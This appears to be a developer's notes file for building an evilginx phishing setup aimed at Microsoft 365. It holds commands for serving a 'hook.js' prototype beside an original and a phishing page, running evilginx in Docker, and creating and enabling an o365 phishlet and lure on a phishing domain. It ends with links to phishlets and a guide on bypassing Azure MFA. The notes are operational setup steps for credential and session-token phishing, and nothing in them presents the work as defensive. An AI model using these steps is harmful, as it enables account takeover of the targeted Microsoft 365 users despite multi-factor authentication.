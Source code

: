 ## Develop/Prototyping hook.js
```
npm install --global http-server
```

```
http-server ./src -S -C ./src/crt/cert.pem -K ./src/crt/key.pem
```

Open:
* https://my-original-site.com:8080/original.html
* https://my-phishing-site.com:8080/phishing.html


## Debugging evilginx
Start evilginx docker without starting the binary
``` 
docker build --tag 'evilginx' . && docker run -p 443:443 -it --entrypoint "/bin/bash" evilginx
```

## Create new pishlet & lure 
phishlets hostname o365 my-phishing-site.com
phishlets enable o365
lures create o365

## Todos
Add `"redirector": "/opt/evilginx/templates/fileshare.html"`

## ConfigReference
https://github.com/kgretzky/evilginx2/blob/master/core/config.go

## Links:
* https://github.com/yudasm/WHfB-o365-Phishlet
* https://github.com/An0nUD4Y/Evilginx2-Phishlets/blob/master/o365.yaml
* https://medium.com/@salamsajid7/bypassing-azure-mfa-with-evilginx-d73add536d9f
* https://www.naunet.eu/blog/9-how-to-use-evilginx-3-with-custom-certificates